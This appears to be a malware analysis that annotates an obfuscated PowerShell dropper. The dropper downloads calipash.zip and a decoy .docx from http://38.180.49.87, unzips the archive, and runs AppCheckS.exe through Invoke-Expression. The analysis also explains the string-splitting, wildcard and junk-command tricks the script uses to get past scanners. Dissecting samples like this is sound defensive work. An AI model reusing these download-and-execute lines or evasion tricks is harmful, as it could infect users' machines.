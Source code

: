 ```powershell
-win 1 eChO ikLUwJJXohZoLaHEBFtdWEvLWq;
```

- Just some garbage echo command, probably to throw off basic scanners.

```powershell
if (-not(Test-Path 'calipash.z''i''p' -PathType Leaf)){
  &(Get-Command in???e-webr**) -uri ht''tp'':/''/3''8.''18''0.''49''.8''7/calipash.z''i''p -OutFile calipash.z''i''p
};
```

- Checks if `calipash.zip` exists. If not, it downloads it from `http://38.180.49.87/calipash.zip`.
- `'zi''p'` and `ht''tp'` are used to split strings and evade detection.
- Uses `Invoke-WebRequest` or `Invoke-WebClient` via wildcard pattern `in???e-webr**`.

```powershell
sleep 0.01; Measure-Object | Out-Null;
```

- Slight delay and dummy commands to mess with sandboxes.

```powershell
eChO uGLxDhDxxfNjkAkreOIPzbprHbWqxfyhhEiZWFLcwdbltXGKhtCnXFfst;
```

- **Another junk echo.**

```powershell
$Hehe = 'Expand-Archive -Path calipash.z''i''p -DestinationPath x64Updtr';
iex -Debug -Verbose -ErrorVariable $e -InformationAction Ignore -WarningAction Inquire $Hehe;
```

- **Unzips the archive** into a folder `x64Updtr`.
- **Uses `Invoke-Expression` to dynamically execute PowerShell.**

```powershell
NotHehe = 'st''ar''t x64Updtr/AppCheckS.e''x''e';
iex -Debug -Verbose -ErrorVariable $ee -InformationAction Ignore -WarningAction Inquire $NotHehe;
```

- **Executes the extracted EXE file.**
- Obfuscation is consistent (`st''ar''t`, `e''x''e`).

```powershell
&(Get-Command in???e-webre************************) -uri ht''tp'':/''/3''8.''18''0.''49''.8''7/dannya/database_response_invalid_error_code_702.docx -OutFile database_response_invalid_error_code_702.docx;
```

- Tries to download a docx file from `http://38.180.49.87/dannya/database_response_invalid_error_code_702.docx`
- `database_response_invalid_error_code_702.docx` is likely a decoy document or secondary loader.

```powershell
sleep 0.01; Get-Process | Out-Null;
```

- Another quick pause and useless command to trip up analysis tools.
